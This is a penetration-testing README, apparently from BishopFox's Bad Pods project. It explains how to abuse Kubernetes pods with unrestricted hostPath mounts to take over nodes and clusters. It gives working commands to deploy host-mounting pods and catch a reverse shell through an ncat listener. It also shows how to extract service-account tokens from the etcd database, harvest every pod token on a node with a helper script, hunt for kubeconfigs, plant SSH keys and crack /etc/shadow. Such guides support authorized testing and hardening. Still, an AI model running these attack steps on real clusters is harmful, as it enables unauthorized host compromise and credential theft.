

# Bad Pod #4: Unrestricted hostPath 


In this case, even if you don’t have access to the host’s process or network namespaces, if the administrators have not limited what you can mount, you can mount / on the host into your pod, giving you read/write access on the host’s filesystem. This allows you to execute most of the same privilege escalation paths outlined above. There are so many paths available that Ian Coldwater and Duffie Cooley gave an awesome Blackhat 2019 talk about it titled The Path Less Traveled: Abusing Kubernetes Defaults! 

Here are some privileged escalation paths that apply anytime you have access to a Kubernetes node’s filesystem:
* Look for `kubeconfig` files on the host filesystem – If you are lucky, you will find a cluster-admin config with full access to everything.
* Access the tokens from all pods on the node - Use something like access-matrix to see if any of the pods have tokens that give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system 
* Add your SSH key – If you have network access to SSH to the node, you can add your public key to the node and SSH to it for full interactive access
* Crack hashed passwords – Crack hashes in `/etc/shadow`, see if you can use them to access other nodes

## Table of Contents
- [Pod Creation](#pod-creation)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post exploitation](#post-exploitation)
  - [Can you run your pod on a control-plane node](#can-you-run-your-pod-on-a-control-plane-node)
    - [Read secrets from etcd](#read-secrets-from-etcd)
  - [Look for kubeconfigs in the host filesystem](#look-for-kubeconfigs-in-the-host-filesystem)
  - [Grab all tokens from all pods on the system](#grab-all-tokens-from-all-pods-on-the-system)
  - [Some other ideas](#some-other-ideas)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)

# Pod Creation
## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/pod/hostpath-exec-pod.yaml
kubectl exec -it hostpath-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/[RESOURCE_TYPE]/hostpath-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostpath-exec-[RESOURCE_TYPE]      
kubectl exec -it hostpath-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe hostpath-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
  
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostpath/[RESOURCE_TYPE]/hostpath-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell and cd to /host**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
# cd /host
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostpath/pod/hostpath-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/pod/hostpath-exec-pod.yaml
kubectl delete pod hostpath-exec-pod
kubectl delete cronjob hostpath-exec-cronjob
```

# Post exploitation

## Can you run your pod on a control-plane node
The pod you created above was likely scheduled on a worker node. Before jumping into post exploitation on the worker node, it is worth seeing if you run your a pod on a control-plane node. If you can run your pod on a control-plane node using the nodeName selector in the pod spec, you might have easy access to the etcd database, which contains all of the configuration for the cluster, including all secrets. This is not a possible on cloud managed Kubernetes clusters like GKE and EKS - they hide the control-plane. 

**Get nodes**
```
kubectl get nodes
NAME                STATUS   ROLES    AGE   VERSION
k8s-control-plane   Ready    master   93d   v1.19.1
k8s-worker          Ready    <none>   93d   v1.19.1
```

**Pick your manifest, uncomment and update the nodeName field with the name of the control-plane node**
```
nodeName: k8s-control-plane
```
**Create your pod**
```
kubectl apply -f manifests/hostpath/job/hostpath-exec-job.yaml
```

### Read secrets from etcd
If you can run your pod on a control-plane node using the `nodeName` selector in the pod spec, you might have easy access to the `etcd` database, which contains all of the configuration for the cluster, including all secrets. 

Below is a quick and dirty way to grab secrets from `etcd` if it is running on the control-plane node you are on. If you want a more elegant solution that spins up a pod with the `etcd` client utility `etcdctl` and uses the control-plane node's credentials to connect to etcd wherever it is running, check out [this example manifest](https://github.com/mauilion/blackhat-2019/blob/master/etcd-attack/etcdclient.yaml) from @mauilion. 

**Check to see if `etcd` is running on the control-plane node and see where the database is (This is on a `kubeadm` created cluster)**
```
root@k8s-control-plane:/var/lib/etcd/member/wal# ps -ef | grep etcd | sed s/\-\-/\\n/g | grep data-dir
```
Output:
```
data-dir=/var/lib/etcd
```
**View the data in etcd database:**
```
strings /var/lib/etcd/member/snap/db | less
```

**Extract the tokens from the database and show the service account name**
```
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
```

**Same command, but some greps to only return the default token in the kube-system namespace**
```
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done | grep kube-system | grep default
```
Output:
```
1/registry/secrets/kube-system/default-token-d82kb | eyJhbGciOiJSUzI1NiIsImtpZCI6IkplRTc0X2ZP[REDACTED]
```


## Look for kubeconfigs in the host filesystem 

By default, nodes don't have `kubectl` installed. If you are lucky though, an administrator tried to make their life (and yours) a little easier by installing `kubectl` and their highly privileged credentials on the node. We're not so lucky on this GKE node 

**Some ideas:**
```bash
find / -name kubeconfig
find / -name .kube
grep -R "current-context" /home/
grep -R "current-context" /root/
```

## Grab all tokens from all pods on the system
You can access any secret mounted within any pod on the node you are on. In a production cluster, even on a worker node, there is usually at least one pod that has a mounted *token* that is bound to a *service account* that is bound to a *clusterrolebinding*, that gives you access to do things like create pods or view secrets in all namespaces. 

Look for tokens that have permissions to get secrets in kube-system. 


**Copy the `can-they.sh` helper script to the pod, download it from github, or manually create it**
```
kubectl cp scripts/can-they.sh hostpath-exec-pod:/
```

**What does `can-they.sh` do?**
* Installs curl and kubectl in the pod (if not installed)
* Grabs all of the tokens from `/host/var/lib/kubelet/pods/*`
* Loops each token against the `selfsubjectaccessreviews` endpoint: `kubectl --token=$token auth can-i [$user-input]`

**Exec into pod (Don't chroot)** 
```
kubectl exec -it hostpath-exec-pod -- bash
```

**Run `can-they.sh`**
```
./can-they.sh
./can-they.sh -i "--list -n kube-system"
./can-they.sh -i "--list -n default"
./can-they.sh -i "list secrets -n kube-system"
./can-they.sh -i "create pods -n kube-system"
./can-they.sh -i "create clusterrolebindings"
```

**Example Run on AKS showing gatekeeper-admin-token-jmw8z can list secrets in kube-system**
```
root@aks-agentpool-76920337-vmss000000:/# ./can-they.sh -i "list secrets -n kube-system"
--------------------------------------------------------
Token Location: /host/var/lib/kubelet/pods/c888d3a8-743e-41dd-8464-91b3e6628174/volumes/kubernetes.io~secret/gatekeeper-admin-token-jmw8z/token
Command: kubectl auth can-i list secrets -n kube-system
yes

--------------------------------------------------------
Token Location: /host/var/lib/kubelet/pods/d13e311b-affa-4fad-b1c4-ec4f7817fd98/volumes/kubernetes.io~secret/metrics-server-token-ftxxd/token
Command: kubectl auth can-i list secrets -n kube-system
no

...omitted for brevity...
```

**Can any of the tokens:**
* Create a pod, deployment, etc. in the kube-system namespace?
* Create a role in the kube-system namespace?
* View secrets in the kube-system namespace?
* Create clusterrolebindings? 

You are looking for a way to access to all resources in all namespaces.


## Some other ideas
* Add your public key authorized_keys on the node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access control-plane nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there. 

## Attacks that apply to all pods, even without any special permissions

**To see these in more detail, head over to [nothing-allowed/README.md](../nothing-allowed)** 

* Access the cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster


# Demonstrate impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test. 

   
# References and further reading: 
* The Path Less Traveled: Abusing Kubernetes Defaults - [Talk](https://www.youtube.com/watch?v=HmoVSmTIOxM) / [Repository](https://github.com/mauilion/blackhat-2019)
* [The Most Pointless Kubernetes Command Ever](https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/)
* [Secure Kubernetes - KubeCon NA 2019 CTF](https://securekubernetes.com/)
* Command and KubeCTL: Real-World Kubernetes Security for Pentesters - [Talk](https://www.youtube.com/watch?v=cRbHILH4f0A) / [Blog](https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/)
* Compromising Kubernetes Cluster by Exploiting RBAC Permissions - [Talk](https://www.youtube.com/watch?v=1LMo0CftVC4) / [Slides](https://published-prd.lanyonevents.com/published/rsaus20/sessionsFiles/18100/2020_USA20_DSO-W01_01_Compromising%20Kubernetes%20Cluster%20by%20Exploiting%20RBAC%20Permissions.pdf)


   